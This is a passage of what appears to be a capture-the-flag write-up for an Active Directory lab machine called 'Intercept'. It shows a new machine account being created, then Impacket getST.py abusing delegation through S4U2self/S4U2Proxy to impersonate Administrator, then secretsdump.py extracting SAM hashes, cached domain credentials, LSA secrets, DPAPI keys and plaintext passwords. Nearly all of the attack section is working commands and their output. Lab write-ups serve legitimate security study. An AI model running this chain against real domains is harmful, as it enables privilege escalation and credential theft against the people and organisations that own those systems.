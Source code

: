 [*] Adding new computer with username: UZLIHXGF$ and password: pHIDVg8SZkCQ4aY result: OK

andd booooomm

    ➜  Intercept python3 /opt/impacket/examples/getST.py -spn 'cifs/ws01.intercept.vl' -impersonate Administrator -dc-ip '10.10.171.245' 'intercept.vl/UZLIHXGF$'
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    Password:
    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [*] Impersonating Administrator
    [*] Requesting S4U2self
    [*] Requesting S4U2Proxy
    [*] Saving ticket in Administrator@cifs_ws01.intercept.vl@INTERCEPT.VL.ccache

dump hash

    ➜  Intercept python3 /opt/impacket/examples/secretsdump.py administrator@WS01.intercept.vl -k -no-pass
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Service RemoteRegistry is in stopped state
    [*] Service RemoteRegistry is disabled, enabling it
    [*] Starting service RemoteRegistry
    [*] Target system bootKey: 0x04718518c7f81484a5ba5cc7f16ca912
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:831cbc509daa37aff98250b635e7f482:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:48daaaaa9654c3754d42b40e292ba63f:::
    [*] Dumping cached domain logon information (domain/username:hash)
    INTERCEPT.VL/Simon.Bowen:$DCC2$10240#Simon.Bowen#35e1bb1dbd5f474e21819bb03ae5d103: (2023-06-27 20:07:12)
    INTERCEPT.VL/Kathryn.Spencer:$DCC2$10240#Kathryn.Spencer#4d8e1b44d30998c82793a9808b959d91: (2023-06-29 11:51:33)
    [*] Dumping LSA Secrets
    [*] $MACHINE.ACC 
    INTERCEPT\WS01$:plain_password_hex:94b8b184b9de258d353e39a39a9b109744f4de0b53ea27d369dec2039ed21bb9b8ca7138e8234b8e4ccc980b36336bb94429ea642e56814f6c6b7d7beb3ab34b339d4fbf4239d37e3276def93e476b443620441d735354f886a7f2a83475c9f89df74f8d61d8d766c1b49fb7a76ae52634064d450dcb6b440ec5b637676b34383e82ae28ebc6778d04b25ef1d4459d16ae81f44d77d9aa2f163beea0c1f23a032009824dff63e267b8fc3a1bfd55f2f7ef5cde99f4332f89414850887fcd24aec1169f83b1b24d08b58e5e0c612ead9961b6e155958d03fd120838cf15b2763aded63a3ed126071e8d6a4aa4fe112872
    INTERCEPT\WS01$:aad3b435b51404eeaad3b435b51404ee:c768a2820a9467fe2e8de60ad9206e98:::
    [*] DefaultPassword 
    intercept.vl\Kathryn.Spencer:Chocolate1
    [*] DPAPI_SYSTEM 
    dpapi_machinekey:0xf6f65580470c139808ab7f0ffb709773d1531dc3
    dpapi_userkey:0x24122e60857c28b7f2e6bdd138f22e3e4ddd58f3
    [*] NL$KM 
    0000   4C A8 6F 51 3B B6 E6 22  0B A7 7A FD 4F 32 EA BC   L.oQ;.."..z.O2..
    0010   78 7A 98 1E DD 83 F2 70  37 73 9B 6C D0 03 9B 7F   xz.....p7s.l....
    0020   FA EA 8D AF A0 84 F9 0D  24 17 3C C9 97 3D 8A E7   ........$.<..=..
    0030   BC EE 5D B7 20 73 02 B7  E1 A7 62 E6 4D 8E F8 ED   ..]. s....b.M...
    NL$KM:4ca86f513bb6e6220ba77afd4f32eabc787a981edd83f27037739b6cd0039b7ffaea8dafa084f90d24173cc9973d8ae7bcee5db7207302b7e1a762e64d8ef8ed
    [*] _SC_HelpdeskService 
    Simon.Bowen@intercept.vl:b0OI_fHO859+Aw
    [*] Cleaning up... 
    [*] Stopping service RemoteRegistry
    [*] Restoring the disabled state for service RemoteRegistry
